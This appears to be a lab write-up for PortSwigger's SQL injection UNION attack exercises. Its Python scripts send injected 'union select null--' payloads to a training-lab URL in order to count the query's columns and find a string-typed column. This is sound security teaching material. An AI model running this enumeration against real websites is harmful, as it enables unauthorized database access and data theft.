 # SQL injection UNION attacks
https://portswigger.net/web-security/sql-injection/union-attacks


## 1 Determining the number of columns

```python
import requests
import json
import urllib

URL = "https://ac6c1ffb1f9581c0c03208ce000a00e5.web-security-academy.net/filter?category=Corporate+gifts"

found = False	# boolean flag for finding no. of cols
addText = "null," 	# null string to test columns

count = 0  	# counter start
maxCount = 20    # maximum number of cols to try


# Lab (1) identify number of columns

print("Detecting number of columns\n")
while(found == False):

	# The "null" string will keep incrementing until a "Success" condition is identified	
	payload = "' union select {}null--".format(count*addText)
	print("Trying... {} column: {}".format(count+1,payload))

	res = requests.get(URL+payload)
	data = res.text

	# To identify a "Success" condition, the response 
	# would contain the following results "product?productId"
	# We shall search an occurence of it using the condition below 
	if (data.count('/product?productId') > 1):
		print("\n[+] Found! There are {} columns.".format(count+1))
		print("[+] Payload used: {}\n".format(payload))		
		found = True
		break

	count=count+1

```

![](SQL%20Injection/screens/union_attacks_find_columns.png)


## 2 Finding columns with a useful data type
Building on the previous script. 

```python

count=count+1   # offset count as it started from 0

# (2) identify which column are String type
print("Detecting column data type")

# build the query that will be used for injection
# We use 'null' string for each column
inject = ["null"] * count   

# string used to identify "string" type
string = "'abc'"

for i in range(count):
	# replace nth position of 'null' string with string type
	inject[i] = string
	if (i > 0):
		# reset the previous position except for the first occurence
		inject[i-1] = "null"

	# prepare the SQL injection statement before adding to payload
	tmp = ",".join(inject) #eg. null,'a',null
	payload = "' union select {}--".format(tmp)
	print("Trying... position {}: {}".format(i+1,payload))

	# Send request with SQL injection
	res = requests.get(URL+payload)

	# Identify "success" condition. Observe that succcess is 200, whereas failure is 500.
	if res.status_code == 200:		
		print("\n[+] Found! Column no {} is a string type\n".format(i+1))
		break
	else:
		i=i+1
```

![](SQL%20Injection/screens/union_attacks_find_string_type.png)

